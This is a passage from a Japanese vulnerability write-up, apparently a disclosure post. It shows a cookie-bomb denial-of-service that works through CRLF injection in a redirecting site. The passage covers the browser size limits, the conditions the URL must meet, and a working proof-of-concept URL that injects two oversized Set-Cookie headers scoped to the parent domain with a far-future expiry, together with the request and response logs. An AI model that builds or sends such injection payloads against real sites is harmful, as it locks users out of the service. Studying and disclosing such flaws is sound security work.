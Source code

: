 <sup>1</sup> 属性を含むSet-Cookieヘッダの値の上限である。  
<sup>2</sup> 属性を含まないSet-Cookieヘッダの値（名前、`=`、値）の上限である。  
<sup>3</sup> URLリンクを踏ませる想定で\<a\>タグのhref属性から発生するリクエストを計測した。  
<sup>4</sup> 10000byteのRequest-URIを送信できることを確認した。それ以上は計測していない。  

今回はURLリンクから発生するリクエストでのDoS攻撃を目的としたため、一度に5120byteを超える情報をRequest-URIから送信できないIE11は対象外とした。`CR` をヘッダフィールドの終端として扱わないFirefoxも対象外である。Chrome、Safari、Edgeを対象に実証した。

どのブラウザも一つのCookieに8190byteを超える情報を保存できないため、二つのCookieに分割して付与する必要がある。リクエストでは複数のCookieを一つのヘッダで送信するため分割しても支障はない。Cookieヘッダのサイズが8190byteを超えるようにCookieを付与し、かつリクエストラインのサイズを8190byte以下に収めたURLを作成しなければならない。CRLFインジェクションで付与する以外のCookieが存在しないとこの条件は満たせない。

対象サイトではHTTPSにリダイレクトした際にセッションIDや用途不明のCookieが複数付与される。これらのサイズの合計が310byteであるため、上限からこの分を差し引いた7880byteを超えるCookieを追加すればよい。これならリクエストラインの上限以下でURLを作成できる。

今回の実証で示すURLの必要条件は以下の通りである。

1. Cookie（名前、`=`、値）一つあたりのサイズが4096byte以下になる。
2. 付与する二つのCookie（名前、`=`、値）のサイズの合計が7880byteを超える。
3. URLリンクから発生するリクエストラインのサイズが8190byte以下になる。

### 概念実証

以下は必要条件を全て満たしたURLとそのリンクから発生した通信のログである。Cookie（boma、bomb）の各サイズは4005byteであるため条件1.を満たし、合計のサイズは8010byteとなるため条件2.も満たす。リクエストラインのサイズは8188byteとなり条件3.も満たす。

hxxp://example.com/%0DSet-Cookie:boma=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... a;domain=.example.com;expires=Wed,%2001%20Jan%202025%2000:00:00%20GMT%0DSet-Cookie:bomb=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb ... b;domain=.example.com;expires=Wed,%2001%20Jan%202025%2000:00:00%20GMT

```
GET /%0DSet-Cookie:boma=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... a;domain=.example.com;expires=Wed,%2001%20Jan%202025%2000:00:00%20GMT%0DSet-Cookie:bomb=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb ... b;domain=.example.com;expires=Wed,%2001%20Jan%202025%2000:00:00%20GMT HTTP/1.1
Host: example.com
...
```
```
HTTP/1.1 301 Moved Permanently
Date: Thu, 25 Jan 2018 01:18:30 GMT
Server: Apache
Location: https://example.com/
Set-Cookie:boma=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa ... a;domain=.example.com;expires=Wed, 01 Jan 2025 00:00:00 GMT
Set-Cookie:bomb=bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb ... b;domain=.example.com;expires=Wed, 01 Jan 2025 00:00:00 GMT
...
```

これで非常に長い二つのCookieがブラウザに付与される。domain属性に `.example.com` を設定しているのは、サブドメインにも影響範囲を広げるためである。またexpires属性に `Wed, 01 Jan 2025 00:00:00` のような未来を設定することで影響を長期化できる。
